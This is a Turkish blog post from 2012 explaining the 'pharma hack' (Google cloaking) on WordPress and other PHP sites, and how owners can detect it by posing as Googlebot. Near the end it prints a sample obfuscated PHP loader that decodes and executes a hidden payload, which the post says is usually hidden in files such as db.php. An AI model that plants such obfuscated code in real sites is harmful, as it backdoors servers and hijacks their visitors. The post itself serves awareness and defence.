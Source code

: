```yaml
---
title: "Pharma hack (Google Cloaking Hack) nedir?"
slug: pharma-hack-google-cloaking-hack-nedir
date: 2012-01-02
url: http://mfyz.com/tr/pharma-hack-google-cloaking-hack-nedir/
tags: ["cloak","cloaking","google","hack","pharma","php","seo","Sunucu Programlama","wordpress"]
category: Sunucu Programlama
migration: {"wpId":159,"wpPostDate":"2012-01-02T03:09:02.000Z"}
lang: tr
---
```


#### Pharma hack nedir?

Pharma hack bır çeşit SEO saldırısıdır. Asıl adı Google Cloaking Hack'dır. Sitenizi html çıktısını kullanıcıya göre manipüle etmek üzerine kuruludur. Pharma hack adını genellikle internette cinsel sağlık ürünleri veya besin takviyesi satan şirketlerin bu hack ile trafik kazanmaya çalışmasından almıştır. Yani bu hack sadece sitenizin arama motoru trafiğini kesmez. Tabi siz analitics yazılımlarda bir trafik kaybı görmezsiniz. Sadece bounce rate'iniz her gün yükselir ve dış trafiğiniz artar. Bu da pagerank'ınızı kaybetmeninizi sağlayabilir.

Büyük tehlike ise sitenizin sansürlenmesi. Türkiye'de son dönemde birçok sitenin/blogun sansürlerden dolayı engellendiğini görüyorsunuz. Bu filtreler genelde halka açık ortamlar, eğitim kurumları gibi alanlarda çok daha etkin. Yani zararsız bir siteye sahip olsanız bile bu hack ile MEB ve BTK'nın google indeksleri ile edindiği site bilgisi genelde cinsel sağlık ürünleri olacağı için muhtemelen siz o içeriğe sahip olmasanız bile okullar, internet cafe'ler gibi yerlerden otomatik olarak filtrelenmiş olacaksınız.

#### Nasıl oluyor?

Pharma hack sitenize doğrudan ziyaretle anlayamayacağınız bir saldırıdır. Siteniz doğrudan gelen ziyaretçilere normal çıktısını verir ve tarayıcıda doğrudan sitenize giren insanlar sitenizi görmeye devam ederler, böylece siz de anlamazsınız pharma hack altında olduğunuzu.

Ama arama motoru botları sitenizi taramaya çalıştığı zaman sitenizin hack kodu sitenizin sayfa başlığı, anahtar kelimeleri gibi meta etiketlerini değiştirip sayfa içeriğinde istedikleri anahtar kelimeleri de ekleyerek sitenizin çıktısını manipule eder. Böylece pagerank'ınızı kullanarak arama motorlarından gelen trafiğinizi çalarlar. Böylece sitenize ait tüm google indeksleri bir sonraki güncellemede o anahtar kelimeleri alır. Eğer siteniz yüksek page rankına sahipse o anahtar kelimelerde üst sıralarda çıkar ve kullanıcı linke tıkladıgı zaman sayfanızdaki ufak bir javascript kodu kullanıcıyı başka bir sunucuya yönlendirir. Arama motoru trafiğiniz yanlış içerikle sunulur ve kısaca arama motoru trafiğiniz başka bir siteye yönlendirilir.

#### Sitenizde pharma hack var mı?

Sitenizi sayfaları kontrol ederek pharma hack olup olmadığını anlayamazsınız. Birkaç yolu var;

1) Tarayıcınızın User Agent'ını GoogleBot olarak değiştirip sitenize girebilir, sayfalarınız öyle kontrol edebilirsiniz.

2) Google Webmaster Tools'a kayıt olup sitenizi ekleyip google botun sitenizi nasıl taradığını görebilirsiniz. Googlebot site sitenizin verdiği HTML çıktısını gösterecektir. Meta etiketlerinizi ve sayfa içeriğinizi kontrol edip fakrlı olup olmadığını görebilirsiniz.

#### Ne tür uygulamalarda yapıyorlar?

Benim gördüğüm örnekleri popüler php hostinglerde ya sunucu kontrolünü ele geçirdikten sonra tüm hesaplara ya da sadece sizin hesabınızı ele geçirdilerse sizin hesabınızda yapılan birkaç ufak php numarasıyla sayfalarınızı arama motoru botlarında farklı render etme üzerine kuruludur. Eğer bir wordpress bloguna veya joomla, drupal gibi bir CMS kullanıyorsanız muhtemel olarak tehlike altındasınız demektir çünkü ele geçirilmesi, gizlenmesi en kolay ve hackerların hedef kitlesidir.

Örnek bir pharma hack kodu göstermem gerekirse:
```php
$check_tmg_password_reset_key = 'QN9Mrh7F=4?C!N^NP.NJ16YH6K66G=+BOeHeQ7D?A!"
CMD$JT,UTP@#3kSZ=j8;>?=B5$(v+}k~)tKkwz6puT|_P{-[11):V;Hblc<eyfau+Z4r29[dID2ThIY.E^A|AHcN@E-
woZPd'^'48X!Z(P<TZY/@:;f6G"/nQ<<i(YX3XE6<MjJ9X)ZnLD:7kE.9E;z=&ZIE05PEHZ
PZQmyMJY{5;*h8d;?*b19{,7 Tl/EC@X#O-M<+l18*N[X,Z]FT+K96]$E+8] 
q##t{R\`0+JUFsy_';
$make_ao_site_theme_from_oldschool = '"\`E\`\`e_Fe$"dai.'|'Are!t!Y tncT)oF';

$wp_rzc_newPage = $make_ao_site_theme_from_oldschool('',$check_tmg_password_reset_key);
$wp_rzc_newPage();

```
Bu kod wordpress bloglar için özellikle yazılmış bir pharma hack kodu. Genelde sitenizde her sayfada çalıştırılan bir dosyada yer alırlar. (bootstrap.php, common.php, db.php vs...)